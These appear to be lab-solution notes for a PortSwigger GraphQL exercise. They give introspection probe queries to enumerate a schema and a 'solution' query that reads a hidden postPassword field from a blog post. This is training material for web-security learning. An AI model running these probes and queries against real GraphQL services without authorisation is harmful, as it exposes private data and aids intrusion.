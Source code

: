 
```
# trying universal query to confirm its graphql service

{
"query":"{__typename}"
}


# introspection probe request to confirm if introspection exists
# just copy paste the below in graphql tab in repeater, it will adjust json

{__schema{queryType{name}}}

# to get root query fields:

{
  __schema {
    queryType {
      fields {
        name
        type {
          name
          kind
          ofType {
            name
            kind
          }
        }
      }
    }
  }
}


# run full introspection query present at 
https://portswigger.net/web-security/graphql

```

```
# Solution
query getBlogPost ($id:Int!) {
    getBlogPost (id:$id) {
        image
        title
        author
        id
        paragraphs
        postPassword
    }
}

Variables:
{"id":3}
```
